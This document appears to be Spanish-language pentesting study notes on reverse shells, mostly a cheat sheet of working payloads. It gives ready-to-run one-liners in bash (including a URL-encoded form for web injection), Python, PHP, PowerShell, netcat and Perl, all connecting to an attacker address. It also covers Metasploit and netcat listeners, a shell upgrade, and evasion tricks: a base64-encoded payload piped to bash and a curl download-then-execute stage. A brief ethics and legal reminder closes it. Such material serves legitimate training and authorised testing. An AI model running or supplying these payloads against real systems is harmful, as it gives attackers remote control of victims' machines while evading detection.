


# Reverse Shell - Técnica de Conexión Inversa

## Introducción

> [!info] ¿Qué es una Reverse Shell?
> Una **reverse shell** es una técnica de conexión en la que la máquina **víctima** inicia una conexión hacia la máquina **atacante**, enviándole una shell interactiva. Esto invierte el flujo normal de conexión, permitiendo al atacante controlar la máquina víctima evadiendo restricciones de red como firewalls y NAT.

Esta técnica es especialmente útil cuando:
- La máquina objetivo está protegida por un firewall que bloquea conexiones entrantes
- Se ha conseguido ejecución remota de comandos en una aplicación web vulnerable
- Se necesita mantener persistencia tras la explotación inicial
- La máquina víctima está detrás de NAT o no tiene IP pública accesible



---

## Comando Básico para Reverse Shell

```bash
bash -c "bash -i >& /dev/tcp/IP_ATACANTE/PUERTO 0>&1"
```

> [!example] Ejemplo real
> ```bash
> bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"
> ```

### Versión codificada para URL (para inyecciones web)

```bash
bash -c "bash -i >%26 /dev/tcp/IP_ATACANTE/PUERTO 0>%261"
```

> [!tip] Consejo
> Si estás inyectando este comando en una aplicación web, necesitarás codificar ciertos caracteres especiales. Por ejemplo, el carácter `&` debe ser reemplazado por `%26` en contextos de URL.

---

## Explicación Detallada del Comando

### Desglose por componentes:

| Componente           | Descripción                                                                               |
| -------------------- | ----------------------------------------------------------------------------------------- |
| `bash -c`            | Ejecuta el comando que sigue como argumento en una nueva instancia de bash                |
| `"bash -i"`          | Inicia una shell bash interactiva (`-i`) que permite entrada/salida del usuario           |
| `>&`                 | Redirige tanto stdout (1) como stderr (2)                                                 |
| `/dev/tcp/IP/PUERTO` | Pseudoarchivo especial que crea una conexión TCP al IP y puerto especificados             |
| `0>&1`               | Redirige stdin (0) al mismo lugar que stdout (1), completando el circuito de comunicación |

### Diagrama de redirección de flujos:



> [!warning] Recordatorio importante
> - **0** representa la entrada estándar (`stdin`)
> - **1** representa la salida estándar (`stdout`) 
> - **2** representa la salida de error (`stderr`)

### Efectos prácticos:

> [!warning] Limitaciones al omitir `0>&1`
> 
> Si eliminamos `0>&1` del comando:
> 
> 1. **Conexión unidireccional**: La máquina atacante podrá **ver la salida** de comandos de la víctima, pero **no podrá enviar comandos** a la shell remota.
>     
> 2. **Shell "ciega"**: La shell se establecerá, pero no podrás interactuar con ella. Verás lo que muestra inicialmente la shell interactiva, pero cualquier comando que escribas no llegará a la máquina comprometida.
>     
> 3. **Sin interactividad**: Esencialmente obtendrás una conexión de solo salida (output-only), similar a un canal de monitoreo pero sin control.
>

---

## Preparación del Lado Atacante

Para recibir la conexión inversa, el atacante debe configurar un listener en el puerto especificado:

### Usando Netcat (la navaja suiza de TCP/IP)

```bash
# Escuchar en el puerto 4444
nc -lvnp 4444
```

### Usando Metasploit Framework

```bash
# Configurar un listener con multi/handler
msfconsole -q
use exploit/multi/handler
set PAYLOAD generic/shell_reverse_tcp
set LHOST tu_ip_atacante
set LPORT 4444
run
```

> [!tip] Mejorar la shell recibida
> Una vez establecida la conexión, puedes mejorar tu shell a una TTY completa:
> ```bash
> python3 -c 'import pty; pty.spawn("/bin/bash")'
> export TERM=xterm
> # Presiona Ctrl+Z para enviar el proceso a segundo plano
> stty raw -echo; fg
> # Presiona Enter dos veces
> ```

---

## Variantes de Reverse Shell por Lenguaje

> [!example] Comandos alternativos para diferentes entornos

### Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

### PHP

```php
php -r '$sock=fsockopen("10.10.14.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### PowerShell (Windows)

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.5",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Netcat

```bash
# Si nc tiene la opción -e
nc -e /bin/bash 10.10.14.5 4444

# Si nc no tiene la opción -e
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.5 4444 > /tmp/f
```

### Perl

```perl
perl -e 'use Socket;$i="10.10.14.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

---

## Redirección de Flujos en Shell

### Explicación de `0>&1` y similares

> [!info] Conceptos de redirección
> En sistemas Unix/Linux, los flujos estándar están representados por descriptores de archivo:

| Descriptor | Nombre | Descripción |
|------------|--------|-------------|
| 0 | stdin | Entrada estándar (lo que se escribe en el teclado) |
| 1 | stdout | Salida estándar (lo que se muestra en pantalla) |
| 2 | stderr | Salida de errores estándar |

#### Ejemplos de redirección comunes:

```bash
# Redirige solo los errores al "basurero"
comando 2>/dev/null

# Redirige solo la salida estándar al "basurero"
comando >/dev/null

# Redirige tanto stdout como stderr al "basurero"
comando >/dev/null 2>&1

# Forma abreviada para redirigir tanto stdout como stderr
comando &>/dev/null

# Redirige stdin a stdout (utilizado en reverse shells)
comando 0>&1
```

---

## Técnicas de Evasión para Reverse Shells

> [!warning] Consideraciones de seguridad
> Los sistemas de detección modernos buscan patrones de reverse shells. Aquí algunas técnicas para evadir detección:

### 1. Codificación Base64

```bash
# Generamos el comando codificado
echo "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1" | base64
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0NDQgMD4mMQo=

# Ejecutamos el comando codificado
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0NDQgMD4mMQo= | base64 -d | bash
```

### 2. Uso de puertos comunes

Utiliza puertos que normalmente estén permitidos en el firewall como 443 (HTTPS), 80 (HTTP) o 53 (DNS).

### 3. Reverse shell multi-etapa

```bash
# Primera etapa: Descargar script
curl http://10.10.14.5/shell.sh -o /tmp/shell.sh

# Segunda etapa: Ejecutar script
bash /tmp/shell.sh
```

---

## Buenas Prácticas y Consideraciones Éticas

> [!tip] Recordatorio importante
> 
> - Utiliza reverse shells **únicamente** en sistemas para los que tengas autorización explícita
> - Documenta todas tus acciones durante pruebas de penetración legales
> - Considera utilizar conexiones cifradas (como SSH) cuando sea posible
> - Elimina cualquier artefacto o puerta trasera al finalizar pruebas autorizadas

> [!warning] Implicaciones legales
> El uso no autorizado de reverse shells puede violar leyes de acceso no autorizado a sistemas informáticos, con graves consecuencias legales.

---

## Referencias

- [[unix|Unix/Linux Commands Reference]]
- [[Descriptores|File Descriptors in Unix]]
- [[stder_stdout|Standard Error and Output]]
- [[Enumeracion y Explotacion|Técnicas de Enumeración y Explotación]]

> [!example] Recursos adicionales
> - [PayloadsAllTheThings - Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
> - [ThreatLocker - Reverse Shells vs Bind Shells](https://www.threatlocker.com/blog/reverse-shells-vs-bind-shells)
> - [PentestMonkey - Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)